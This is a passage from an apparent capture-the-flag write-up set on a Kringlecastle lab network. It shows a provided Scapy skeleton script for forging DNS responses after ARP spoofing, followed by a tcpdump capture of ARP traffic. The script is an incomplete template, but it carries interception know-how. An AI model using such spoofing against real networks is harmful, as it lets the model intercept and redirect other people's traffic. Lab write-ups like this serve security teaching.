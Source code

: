 And the provided DNS script was:

```python dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00")   # need to replace mac addresses
    ip  = IP(dst="0.0.0.0", src="0.0.0.0")                          # need to replace IP addresses
    udp = UDP(dport=99999, sport=99999)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES 
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )
    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    main()
```

These two scripts were definitely very useful. But, to know where to start, we had to check out what traffic we could see on the host we do have access to. Using `tcpdump` we can do just that.

```text
guest@b0fe959ddcac:~/scripts$ tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:52:15.869362 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
15:52:16.917383 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
15:52:17.957376 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
15:52:19.009424 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```
